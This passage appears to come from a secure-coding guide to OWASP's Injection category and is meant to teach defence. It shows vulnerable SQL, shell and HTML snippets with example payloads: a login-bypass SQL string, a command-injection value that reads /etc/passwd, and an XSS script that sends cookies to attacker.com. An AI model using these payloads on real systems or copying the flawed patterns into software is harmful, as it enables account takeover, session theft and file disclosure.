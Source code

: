 **References**:
- OWASP Cryptographic Storage Cheat Sheet: https://cheatsheetseries.owasp.org/cheatsheets/Cryptographic_Storage_Cheat_Sheet.html
- Mozilla SSL Configuration Generator: https://ssl-config.mozilla.org/

---

### A03:2021 - Injection

**CWE Mappings**: CWE-79, CWE-89, CWE-73, CWE-94, CWE-917

**Description**: Injection flaws occur when untrusted data is sent to an interpreter as part of a command or query.

**Types**:

**SQL Injection**:
```sql
-- ❌ BAD: Vulnerable query - example of what NOT to do
SELECT * FROM users WHERE username = '$username' AND password = '$password'

-- Attack payload
username: admin' --
Result: SELECT * FROM users WHERE username = 'admin' --' AND password = ''
```

**Command Injection**:
```bash
# Vulnerable code
system("ping -c 4 " + user_input)

# Attack payload
user_input: "8.8.8.8; cat /etc/passwd"
```

**XSS (Cross-Site Scripting)**:
```html
<!-- Vulnerable output -->
<div>Welcome, <?= $username ?></div>

<!-- Attack payload -->
username: <script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>
```

**Real-World Examples**:
- **CVE-2021-44228**: Log4Shell (JNDI injection, CVSS 10.0)
- **CVE-2019-19781**: Citrix ADC path traversal (CVSS 9.8)

**Prevention**:
- Use parameterized queries/prepared statements
- Use ORM frameworks correctly
- Whitelist input validation
- Escape special characters
- Use CSP (Content Security Policy) headers for XSS
- Use SAST tools to detect injection vulnerabilities
